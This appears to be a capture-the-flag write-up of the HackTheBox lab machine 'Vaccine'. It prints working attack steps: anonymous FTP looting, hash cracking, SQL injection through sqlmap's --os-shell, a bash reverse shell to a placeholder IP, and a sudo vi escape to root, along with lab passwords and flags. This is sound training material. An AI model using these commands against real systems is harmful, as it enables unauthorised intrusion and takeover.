 ```yaml
---
title: 'Vaccine - HTB Starting Point Tier 2'
description: 'Writeup for Vaccine box'
pubDate: 'Feb 6 2025'
heroImage: '/blog-placeholder-1.jpg'
---
```


## Vaccine
*Postgres, PHP, SQLi*

**Task 1**  
Besides SSH and HTTP, what other service is hosted on this box?  

FTP as per nmap scan

```bash
kali$ nmap -sC $TARGET --min-rate=2000 | tee nmap-sc.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 11:13 AEDT
Nmap scan report for 10.129.95.174
Host is up (0.36s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.15.41
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh
| ssh-hostkey:
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: MegaCorp Login

Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
```

**Task 2**  
This service can be configured to allow login with any password for specific username. What is that username?  

`anonymous`

**Task 3**  
What is the name of the file downloaded over this service?  

`backup.zip`

```bash
kali$ ftp $TARGET
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
Name (10.129.95.174:malachi): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10511|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10450|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |*************************************************************************************************************************************|  2533      489.24 KiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (6.83 KiB/s)
ftp> pwd
Remote directory: /
```


**Task 4**  
What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?  

`zip2john`

**Task 5**  
What is the password for the admin user on the website?  

1. Use John to crack zip (password: `741852963`)
2. Read index file and we find md5 hash of admin password (md5: `2cb42f8734ea607eefed3b70af13bbd3`)
3. Lookup unsalted md5 reverse to get `qwerty789` for user `admin`

**Task 6**  
What option can be passed to sqlmap to try to get command execution via the sql injection?  

Given we have an admin password to the PHP site, let's take a look at the website and peek around for any potential vulnerabilities. Upon logging in, we are granted with a dashboard with a search bar. That search appears to be the only interactive functionality. Let's have a play around. Aha! Typing `a'` gives us a SQL error

```sql
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%a'%'^
```

At this point, we have an unsanitised input for SQLi at the endpoint `http://$TARGET/dashboard.php?search=<something>`

Looking at the `sqlmap` options, the `--os-shell` looks pretty good.


**Task 7**  
What program can the postgres user run as root using sudo?  

First, let's gain access to the machine. (n.b. extending the timeout prevented me from getting kicked off every couple of minutes)

```bash
kali$ sqlmap --os-shell -u http://$TARGET/dashboard.php?search=abc --cookie=PHPSESSID=<session id> --timeout 1800
...
it looks like the back-end DMBS is 'PostgreSQL'
...
[09:26:14] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[09:26:17] [INFO] fingerprinting the back-end DBMS operating system
[09:26:19] [INFO] the back-end DBMS operating system is Linux
[09:26:20] [INFO] testing if current user is DBA
[09:26:21] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[09:26:21] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
command standard output: 'postgres'
os-shell> pwd
command standard output: '/var/lib/postgresql/11/main'
```

Let's establish a more stable shell

```
os-shell> /bin/bash -c 'bash -i >& /dev/tcp/<IP>/1337 0>&1'
...
kali$ nc -lvnp 1337
postgres@vaccine:/var/lib/postgresql/11/main$
```

My initial idea was to look for files that had the SETUID bit. That could perhaps give an idea for a program we could abuse for privesc. Unfortunately that only yielded the standard files in /usr/bin and /usr/share, as well as a bunch of snap packages. This didn't seem to be the right approach:

```bash
# Failed attempt to find permissions
find /usr 2>/dev/null -type f -perm /4000
```

I referred to a hint which pointed me in the direction of `sudo -l`. When trying to find permissions by `sudo -l`, I was getting hit with the error `sudo: a terminal is required to read the password`. At this point, I returned to the writeup which showed that while this bash reverse shell was more stable, it wasn't enough - we needed a stable shell. See docs for [`pty.spawn()`](https://docs.python.org/3/library/pty.html#pty.spawn)

```
postgres@vaccine:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Even still, trying to use the command `sudo -l` was prompting for a password. I did go to the writeup for a hint - it said to look in the `/var/www/html` directory where the site was. If there were some creds stored in the PHP files, there could possible be some SQL things too. We know the dashboard is retrieving data from somewhere. Let's look at that:

```php
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

Excellent! Looks like exactly what we're after.

```bash
postgres@vaccine:/var/www/html$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

The user can run `vi` as root. (n.b. it can run as root to edit that specific file. I didn't realise that at first)


**Task 8**  
Submit user flag  

From spawning a stable shell in task 7:
```bash
postgres@vaccine:/var/lib/postgresql/11/main$ cd ~
cd ~
postgres@vaccine:/var/lib/postgresql$ ls
ls
11  user.txt
postgres@vaccine:/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```


**Task 9**  
Submit root flag  

In vi, we can get a shell by `:sh`. Doing so after opening the file with sudo gives us a root shell. 

```bash
postgres@vaccine$ sudo vi /etc/postgresql/11/main/pg_hba.conf
password for postgres: ...

# vim
:sh
wroot@vaccine#whoami
whoami
root
root@vaccine# cd ~
root@vaccine:~# ls
ls
pg_hba.conf  root.txt  snap
root@vaccine:~# cat root.txt
cat root.txt
dd6e058e814260bc70e9bbdef2715849
```

Look at that! Root flag obtained. What I didn't know earlier, and perhaps was due to not reading the full output before, was that in order for the command to be executed as root, I would need to use `sudo` on that specific command. I had assumed that simply using `vi` would automatically default to root. When that didn't work, I assumed that using `vi` to open the file would automatically escalate me to root. Turns out, I need to specify sudo. Sudo would then perform a lookup to validate permissions. Also worth noting is the gtfobins page on vi here: https://gtfobins.github.io/gtfobins/vi/#sudo

